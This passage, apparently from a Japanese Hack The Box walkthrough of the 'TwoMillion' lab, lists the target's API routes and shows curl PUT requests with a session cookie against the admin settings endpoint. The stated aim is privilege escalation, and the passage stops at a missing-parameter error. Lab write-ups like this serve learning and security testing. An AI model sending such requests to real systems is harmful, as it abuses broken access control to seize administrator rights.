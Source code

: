```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

が返ってきた。admin向けと思われるエンドポイントが確認できる。権限昇格を行いたい。PUTで叩く必要があるのでまたcurlを使う。

`curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rvd3usgqn4ol8893tgmqs19f6r"`

で

```json
{"status":"danger","message":"Invalid content type."} 
```

が返ってきた。content typeで何が想定されているのか知りたいので

APIがjsonで応答することは既に分かっているので、headerに`Content-Type: application/json`を追加してもう一度PUTを試す。

`curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=rvd3usgqn4ol8893tgmqs19f6r" -H "Content-Type:application/json"`

すると今度は

```json
{"status":"danger","message":"Missing parameter: email"}      
```
